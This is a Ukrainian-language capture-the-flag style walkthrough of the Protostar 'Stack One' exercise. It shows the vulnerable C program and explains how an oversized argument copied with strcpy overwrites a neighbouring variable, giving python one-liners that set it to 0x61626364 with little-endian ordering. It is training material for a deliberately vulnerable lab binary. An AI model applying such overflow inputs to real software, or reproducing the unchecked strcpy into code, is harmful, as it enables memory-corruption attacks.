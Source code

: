 ## [Stack One](http://exploit.education/protostar/stack-one/)

На даному рівні розглядається концепція модифікації змінних до певних значень у програмі та спосіб розміщення змінних у пам’яті.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Код схожий до попереднього рівня. У нас досі є ```volatile``` і буфер на 64 байти. Але замість ```gets()``` використовується ```strcpy()```. 
Дана функція приймає два аргументи: ```destination``` і ```source```. Вона копіює дані із рядка, на який вказує аргумент ```source```, у рядок, на який вказує аргумент ```destination```, 
поки не зустрінеться символ кінця рядка. Копіювання відбувається разом із символом кінця рядка. Якщо рядки перекриваються, то результат копіювання буде невизначений.  
Ще однією відмінністю від попереднього рівня є те, що змінна ```modified``` повинна дорівнювати 0x61626364.  

Спробуємо запусти код із попереднього рівня для перевірки результату. Тільки цього разу потрібно скористатися BASH для підстановки значення, щоб використовувати наш вивід у якості аргументу:  
./stack1 $(python -c "print 'a' * 65")

У результаті буде отримано: "Try again, you got 0x00000061". Якщо подивитися у таблицю ASCII-символів, то символ 'a' якраз має значення 0x00000061 у шістнадцятковій системі. 
До речі, 0x61626364 очевидно буде 'abcd'. Отже, можна просто ввести 64 символи у буфер, а останніми задати 'abcd'. 
Але насправді тут є один нюанс під назвою little endian (числа у пам'яті перевернуті). Отже, потрібно зробити реверс рядка. Маємо наступну команду:  
./stack1 $(python -c "print('a' * 64 + 'abcd'[::-1])")

Ну або більш універсальний спосіб (щоб не вгадувати коди необхідних символів):
./stack1 $(python -c "from struct import pack; print('a' * 64 + pack('<I', 0x61626364))")